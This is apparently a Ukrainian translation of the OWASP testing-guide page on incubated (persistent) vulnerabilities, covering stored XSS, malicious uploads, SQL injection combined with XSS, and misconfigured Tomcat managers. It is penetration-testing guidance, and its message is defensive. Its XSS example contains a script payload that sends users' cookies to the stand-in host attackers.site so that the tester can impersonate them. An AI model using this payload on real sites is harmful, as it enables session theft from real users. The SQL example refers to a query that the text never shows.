 # Тестування на інкубовану вразливість
## Висновок

Інкубоване тестування, яке також часто називають персистентними атаками, є складним методом тестування, для роботи якого потрібно більше однієї вразливості з перевіркою даних. Інкубовані вразливості зазвичай використовуються для проведення атак типу "водопій" проти користувачів легітимних веб-додатків.

Інкубовані уразливості мають наступні характеристики:

По-перше, вектор атаки повинен бути збережений, він повинен зберігатися в шарі збереження, а це можливо лише за наявності слабкої валідації даних або якщо дані надійшли в систему через інший канал, наприклад, через консоль адміністратора або безпосередньо через внутрішній пакетний процес.
По-друге, після того, як вектор атаки був "викликаний", він повинен бути успішно виконаний. Наприклад, інкубована XSS-атака вимагатиме слабкої перевірки вихідних даних, тому скрипт буде доставлений клієнту у виконуваному вигляді.
Використання деяких вразливостей або навіть функціональних особливостей веб-додатку дозволить зловмиснику підкинути фрагмент даних, який згодом буде отриманий нічого не підозрюючим користувачем або іншим компонентом системи, експлуатуючи певну вразливість там.

У тесті на проникнення інкубовані атаки можуть бути використані для оцінки критичності певних помилок, використовуючи знайдену проблему безпеки для побудови атаки на стороні клієнта, яка зазвичай буде спрямована на велику кількість жертв одночасно (тобто на всіх користувачів, які переглядають сайт).

Цей тип асинхронної атаки охоплює широкий спектр векторів атаки, серед яких можна виділити наступні:

- Компоненти завантаження файлів у веб-додатку, що дозволяють зловмиснику завантажувати пошкоджені медіа-файли (JPEG-зображення, що експлуатують CVE-2004-0200, PNG-зображення, що експлуатують CVE-2004-0597, виконувані файли, сторінки сайту з активним компонентом і т.д.)
- Проблеми міжсайтового скриптингу в повідомленнях на публічних форумах (більш детально див. Тестування на наявність збереженого міжсайтового скриптингу). Потенційно зловмисник може зберігати шкідливі скрипти або код в репозиторії у внутрішній частині веб-додатку (наприклад, в базі даних) для того, щоб цей скрипт/код виконувався одним з користувачів (кінцевими користувачами, адміністраторами тощо). Прикладом архетипової інкубованої атаки є використання міжсайтової скриптової уразливості на форумі користувача, дошці оголошень або блозі з метою впровадження деякого JavaScript коду на вразливій сторінці, який в кінцевому підсумку буде відображений і виконаний в браузері користувача сайту - з використанням рівня довіри до оригінального (вразливого) сайту в браузері користувача.
- SQL/XPATH Ін'єкція, що дозволяє зловмиснику завантажити контент в базу даних, який пізніше буде отриманий як частина активного контенту на веб-сторінці. Наприклад, якщо зловмисник може розмістити довільний JavaScript на дошці оголошень так, щоб він виконувався користувачами, то він може отримати контроль над їх браузерами (наприклад, XSS-проксі).
- Неправильно налаштовані сервери, що дозволяють встановлювати пакети Java або подібні компоненти веб-сайтів (наприклад, Tomcat, або консолі веб-хостингу, такі як Plesk, CPanel, Helm і т.д.).

## Об'єкти тестування
- Ідентифікувати ін'єкції, які зберігаються і потребують етапу відкликання до збереженої ін'єкції.
- Зрозуміти, як може відбутися етап виклику.
- Якщо можливо, встановити слухачів або активувати крок відкликання.

## Як протестувати
### Тестування "чорної скриньки"
#### Приклад завантаження файлів
Перевірте тип контенту, дозволений для завантаження у веб-додаток, та отриману URL-адресу для завантаженого файлу. Завантажте файл, який буде експлуатувати компонент на локальній робочій станції користувача при перегляді або завантаженні користувачем. Надіслати жертві електронний лист або інший вид оповіщення, щоб змусити його/її переглянути сторінку. Очікуваний результат - експлойт спрацює, коли користувач перегляне отриману сторінку або завантажить і запустить файл з довіреного сайту.

#### Приклад XSS на дошці оголошень
- Ввести код JavaScript в якості значення вразливого поля, наприклад, <script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script></script>.
- Спрямувати користувачів на перегляд вразливої сторінки або дочекатися, поки вони її переглянуть. На хості attackers.site встановіть "слухач", що прослуховує всі вхідні з'єднання.
- Коли користувачі переглядають вразливу сторінку, на хост attackers.site буде відправлений запит, що містить їх cookie (document.cookie включений як частина запитуваної URL-адреси), наприклад GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1
- Використання отриманих файлів cookie для видачі себе за користувачів на вразливому сайті.

#### Приклад SQL ін'єкції
Зазвичай, цей набір прикладів використовує XSS-атаки шляхом використання SQL-ін'єкцій. Перше, що потрібно перевірити - чи є на цільовому сайті уразливість SQL-ін'єкції. Це описано в розділі Тестування на наявність SQL-ін'єкцій. Для кожної SQL-ін'єкції існує базовий набір обмежень, що описує тип запитів, які дозволені зловмиснику/тестеру.

Потім тестувальник повинен зіставити розроблені ним XSS-атаки з записами, які йому дозволено вставляти.

Так само, як і в попередньому прикладі XSS, використовуйте поле веб-сторінки, вразливе до SQL-ін'єкцій, щоб змінити значення в базі даних, яке буде використовуватися додатком в якості вхідних даних для відображення на сайті без належної фільтрації (це буде комбінація SQL-ін'єкції та XSS-атаки). Наприклад, припустимо, що в базі даних є таблиця нижнього колонтитула з усіма колонтитулами для сторінок веб-сайту, включаючи поле повідомлення з юридичним повідомленням, яке з'являється внизу кожної веб-сторінки. Ви можете використовувати наступний запит, щоб вставити код JavaScript в поле повідомлення в таблиці нижнього колонтитула в базі даних.


#### Неправильно налаштований сервер
Деякі веб-сервери мають інтерфейс адміністрування, який може дозволити зловмиснику завантажити на сайт активні компоненти на свій вибір. Це може бути у випадку з сервером Apache Tomcat, який не вимагає надійних облікових даних для доступу до свого менеджера веб-додатків (або якщо тестувальники змогли отримати дійсні облікові дані для модуля адміністрування іншими способами).

У цьому випадку можна завантажити WAR-файл і розгорнути на сайті новий веб-додаток, що дозволить не тільки виконати обраний тестувальником код локально на сервері, але й розмістити на довіреному сайті додаток, до якого потім зможуть отримати доступ звичайні користувачі сайту (швидше за все, з більш високим ступенем довіри, ніж при зверненні до іншого сайту).

Очевидно, що можливість змінювати вміст веб-сторінок на сервері через будь-які вразливості, які можуть бути використані на хості, що дасть зловмиснику права на запис у кореневому каталозі, також буде корисною для розміщення такої інкубованої атаки на сторінках веб-сервера (насправді, це відомий метод розповсюдження інфекції для деяких веб-серверних черв'яків).


### Тестування "сірої скриньки"
Методи тестування "сірої" та "білої" скриньок будуть такими ж, як і раніше.

- Вивчення перевірки вхідних даних є ключовим у зменшенні цієї вразливості. Якщо інші системи на підприємстві використовують той самий рівень збереження, вони можуть мати слабку перевірку вхідних даних, і дані можуть зберігатися через обхідні шляхи.
- Для боротьби з проблемою "чорного ходу" для атак на стороні клієнта необхідно також використовувати перевірку вихідних даних, щоб зіпсовані дані кодувалися перед відображенням клієнту, а отже, не виконувалися.

## Інструменти
- [XSS-proxy](https://sourceforge.net/projects/xss-proxy/)
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

